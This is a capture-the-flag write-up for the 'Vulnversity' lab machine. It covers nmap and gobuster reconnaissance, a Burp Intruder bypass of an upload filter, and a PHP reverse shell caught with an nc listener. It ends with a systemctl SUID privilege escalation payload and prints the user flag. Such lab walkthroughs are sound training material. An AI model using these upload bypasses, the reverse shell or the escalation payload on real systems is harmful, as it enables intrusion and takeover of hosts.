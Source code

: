 # Vulnversity

## get started
- 1)to connect download open vpn using ` sudo apt install openvpn `
then go to access page on openvpn and download your `.ov` file by seclect the server and click generate then connect to the netwoek using ` sudo openvpn MahmudEg2.vo `



## Reconnaissance 
- usng NMAP --> `nmap tool use to scan open ports.`
- first scan open ports on `10.9.4.424` (machone ip) using `nmap -sV 10.9.4.424`

>note : -sV for version of rinning service 
>       -sS TCP SYN port scan (setalth scan)
>       -sU UDP port scan
>       -A to enable OS and Version detection (n,ap build-in secript)

** - you will notice there is 6 ports are open **

```sh
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))


- the squid proxy version is 3.5.12

3128/tcp open  http-proxy  Squid http proxy 3.5.12

-if we scan using (-p-400) it will scan 400 ports

-the most likely opertating system is (ubuntu)

22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protoc>

-web server running on port 3333

3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
```

##exploting
- location directories using Gobuster: gobuster is tool use to scan directories by brouteforce from givin wordlist
first install gobuster
` sudo apt-get install gobuster `

- then you should have wordlist to use it to brutforce the locations in kali the wordlist locat in 
`/usr/share/wordlists`
` /usr/share/wordlists/dirbuster/directory-list-1.0.txt`

-start bruteforceing ` gobuster dir -u http://10.10.55.30:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt `

```sh
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.55.30:3333/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 318] [--> http://10.10.55.30:3333/images/]                                                                             
/css                  (Status: 301) [Size: 315] [--> http://10.10.55.30:3333/css/]                                                                                
/js                   (Status: 301) [Size: 314] [--> http://10.10.55.30:3333/js/]
/internal             (Status: 301) [Size: 320] [--> http://10.10.55.30:3333/internal/]                                                                           
Progress: 141708 / 141709 (100.00%)
===============================================================
Finished
===============================================================
         
```

-the directory that has an upload form page `http://10.10.55.30:3333/internal/`

## Comprpmise the Webserver
   > we well use `Brupsuit`: it is tool use to inertupt the web browser request 

- first we need to creat txt file (php.txt) wordlist using
```sh
cat > phpext.txt
.php
.php3
.php4
.php5
.phtml
```

- run Brubsuit go to Intruder Tab  and click on Payoads --> select Sniper.
- click on Positions --> find the file --> click add $

> If the first time using Brubsuite
> Install foxyproxy extintion on your browser and then add new proxy (127.0.0.1:8080) in my case
then go to Brubsuit on Proxy Tab and run Intercept is on now send to intruder

- after setup configuration as we said 
- start the attack, notice that .phtml is a success

now we know that we can upload php file so we need to install PHP reverse from `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php `

-edite the file by change the ip and port ( tun0 ip and any port i use 4433)
-change the `.php` extention to .phtml
-upload it to the /internal page (success)
-navigate to uplods you can guss it or brutforce using gubaster `http://10.10.55.30:3333/internal/uploads/`

then listen to the port using ` nc -lvnp 4433 `

-then click on `php-reverse-shell.phtml` at the page 
-you should notic that the connection to port `4433` is establishid
-now you can navigate the directories using (ls,cd) go to home so you can see the name of the user 
`bill`

-then we need to find user flag it seems to be text file names user has the flag insede it
you can serch it by using ` find / -name user.txt 2>/dev/null`
> note: `2>/dev/null` use to remove error masseges
 
-or you can find the file in /home/bill/user.txt and read it by cat command
- the flag is : `8bd7992fbe8a6ad22a63361004cfcedb`

## Privilege Escalation
-after login to victem machine now need to become superuser (root)
>SUID (set owner userId upon execution) is a particular type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).
 so know we need to fond SUID file we do that using (i found it by quick google search): 

```sh 
 find / -perm -u=s -type f 2>/dev/null
 it will response 
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
-I chose /bin/systemctl case he said on system it just a guess

now at the final find root flag 

vist this site to know how to escleate to root `https://gtfobins.github.io/ `
-Just past system SUID that you find (systemctl) and you will find all commands you need then just copy and paste the code:
``` plain text
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
